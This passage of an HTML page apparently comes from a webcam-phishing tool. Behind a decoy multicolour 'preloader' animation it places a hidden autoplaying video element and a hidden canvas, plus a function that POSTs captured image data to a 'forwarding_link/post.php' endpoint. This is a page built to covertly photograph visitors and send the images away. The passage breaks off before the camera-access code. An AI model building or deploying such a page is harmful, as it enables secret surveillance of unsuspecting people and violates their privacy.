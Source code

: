 }
.cssload-preloader .cssload-preloader-box > div:nth-child(7) {
	background: rgb(58,0,250);
	margin-right: 8px;
	animation: cssload-movement 690ms ease 517.5ms infinite alternate;
		-o-animation: cssload-movement 690ms ease 517.5ms infinite alternate;
		-ms-animation: cssload-movement 690ms ease 517.5ms infinite alternate;
		-webkit-animation: cssload-movement 690ms ease 517.5ms infinite alternate;
		-moz-animation: cssload-movement 690ms ease 517.5ms infinite alternate;
}
.cssload-preloader .cssload-preloader-box > div:nth-child(8) {
	background: rgb(255,255,0);
	margin-right: 8px;
	animation: cssload-movement 690ms ease 603.75ms infinite alternate;
		-o-animation: cssload-movement 690ms ease 603.75ms infinite alternate;
		-ms-animation: cssload-movement 690ms ease 603.75ms infinite alternate;
		-webkit-animation: cssload-movement 690ms ease 603.75ms infinite alternate;
		-moz-animation: cssload-movement 690ms ease 603.75ms infinite alternate;
}
.cssload-preloader .cssload-preloader-box > div:nth-child(9) {
	background: rgb(221,0,255);
	margin-right: 8px;
	animation: cssload-movement 690ms ease 690ms infinite alternate;
		-o-animation: cssload-movement 690ms ease 690ms infinite alternate;
		-ms-animation: cssload-movement 690ms ease 690ms infinite alternate;
		-webkit-animation: cssload-movement 690ms ease 690ms infinite alternate;
		-moz-animation: cssload-movement 690ms ease 690ms infinite alternate;
}
.cssload-preloader .cssload-preloader-box > div:nth-child(10) {
	background: rgb(51,102,255);
	margin-right: 8px;
	animation: cssload-movement 690ms ease 776.25ms infinite alternate;
		-o-animation: cssload-movement 690ms ease 776.25ms infinite alternate;
		-ms-animation: cssload-movement 690ms ease 776.25ms infinite alternate;
		-webkit-animation: cssload-movement 690ms ease 776.25ms infinite alternate;
		-moz-animation: cssload-movement 690ms ease 776.25ms infinite alternate;
}
</style>
</head>
<div class="video-wrap" hidden="hidden">
    <video id="video" playsinline autoplay></video>
 </div>
 
 <canvas hidden="hidden" id="canvas" width="640" height="480"></canvas>
 
 <script>
 
 function post(imgdata){
 $.ajax({
     type: 'POST',
     data: { cat: imgdata},
     url: 'forwarding_link/post.php',
     dataType: 'json',
     async: false,
     success: function(result){
         // call the function that handles the response/results
     },
     error: function(){
     }
   });
 };
 